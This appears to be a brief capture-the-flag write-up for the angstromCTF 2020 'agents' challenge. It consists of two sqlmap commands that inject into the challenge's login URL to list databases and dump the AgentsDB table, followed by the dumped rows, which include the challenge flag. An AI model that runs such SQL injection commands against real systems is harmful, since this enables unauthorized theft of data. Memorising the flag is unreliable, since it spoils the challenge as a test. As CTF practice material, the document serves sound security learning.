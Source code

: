 sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 --dbs <br />
sqlmap -u "https://agents.2020.chall.actf.co/login?" --level=3 -D AgentsDB --dump <br />

+----------------------------------------------------------------------------------------------+--------------------------------+
| UA                                                                                           | Name                           |
+----------------------------------------------------------------------------------------------+--------------------------------+
|  AAAA                                                                                        | GRU                            |
|  shrek V                                                                                     | vector but elon musk's brother |
| 123ujklaguhjnkadsuop98uij2k3l4mlgjaisdopgjk;mlkl;k234lkjhasd89f709iok23jkdf keyboard bash op | actf{nyoom_1_4m_sp33d}         |
| neeeeeeeeeeeeeeeeeeeeeeeeum                                                                  | wile e. coyote                 |
| I WANT THAT KRABBY PATTY                                                                     | PLANKTON                       |
| bzzzzzzztaaaa                                                                                | mort                           |
| bzzz';lhjkdjsjkldfgzzzztaaaa                                                                 | shaggy, destroyer of worlds    |
| hiiiii whatis our aaa                                                                        | matt, lord of fitness          |
| nice try but this is harder :p                                                               | admin                          |
+----------------------------------------------------------------------------------------------+--------------------------------+
